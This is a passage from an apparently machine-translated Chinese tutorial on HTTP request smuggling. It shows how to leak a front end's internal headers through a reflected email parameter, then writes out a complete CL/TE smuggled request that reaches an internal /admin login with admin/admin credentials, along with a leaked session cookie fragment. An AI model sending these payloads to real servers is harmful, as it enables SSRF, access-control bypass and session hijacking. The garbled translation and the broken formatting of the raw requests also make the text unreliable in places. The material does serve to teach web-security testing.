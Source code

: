 我们的下一个要求

*   内部头也在这里，当然，前端会将内部头添加到它转发给后端的所有请求中。这个请求被附加到未处理的块上。

![](img/d13702ac28e8f1520696af6531f03c60.png)

我们的下一个请求被追加到未处理的儿童走私请求中

*   现在，后端将处理这个请求，但是作为 CL，是的，房间概念中的相同大象。
*   但是你有没有注意到这个请求中的 CL 实际上比 POST 主体内容要大？帖体'**'的实际 CL 只有 26，而我们提到的是 165。这是它从下一个请求开始拉取的地方，这也是我们的请求。因此，下一个请求会被附加到 email 参数上。**
*   **我们知道这是一种请求，其中“电子邮件”参数的值反映在响应中，对于错误的电子邮件，您将得到:**

```
HTTP/1.1 200 OKEmail "ironman@avengers.comGET /accountdetails HTTP/1.1
Host: abcdefsecurity.com
Internal-header: 1
Internal-header: 2
Cookie: JSESSIONID=45af3e9b-e498-4582-afab-" does not exist
```

**瞧，我们已经得到了我们的内部头和它的值。将这些头附加到子走私请求中，更改父走私请求的内容长度以适应内部头，发送它，SSRF 应该会再次成功。**

```
**SSRF REQUEST:**POST / HTTP/1.1
Host: abcdefsecurity.com
**Content-Length: 188**
Transfer-Encoding: chunked
Transfer-Encoding: x
Connection: Keep-Alive0POST /admin HTTP/1.1
Host: stg.abcdefsecurity.com
Content-Type: application/x-www-form-urlencoded
**Internal-Header: 1
Internal-Header: 2**
Content-Length: 25user=admin&password=admin**SSRF RESPONSE:**HTTP/1.1 200 OKYou login is successful !
```

> **请记住，要使这一预备步骤成功，关键是在孩子走私请求中玩弄内容长度，比如它是 165，不断增加它们，直到您得到您想要的，或者直到它在您超出请求后超时。**

**休息一下，回忆一下:)**

# **开发 TE。CL(请求存储)**
